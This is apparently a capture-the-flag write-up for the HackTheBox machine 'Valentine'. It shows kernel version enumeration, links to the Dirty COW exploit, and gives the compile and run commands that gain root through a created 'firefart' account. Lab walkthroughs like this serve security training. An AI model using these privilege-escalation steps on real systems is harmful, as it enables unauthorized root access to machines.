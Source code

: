 # Privilege Escalation - 3
## Root - Via Kernel Exploit
1. Identify linux kernel version
	```
	hype@Valentine:/tmp$ uname -a
	Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
	```
	- `3.2.0-23-generic` - vulnerable to dirtycow
2. Try `dirtycow` exploit
	1. [How does the exploit work?](https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/index.html)
	2. [Download Exploit](https://www.exploit-db.com/exploits/40839)
	3. Transfer to `valentine.htb` 
	4. Run Exploit
		```
		hype@Valentine:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
		hype@Valentine:/tmp$ ./dirty password
		hype@Valentine:/tmp$ su firefart
		```
		![]({{ page.img_path }}Pasted%20image%2020220829042936.png)



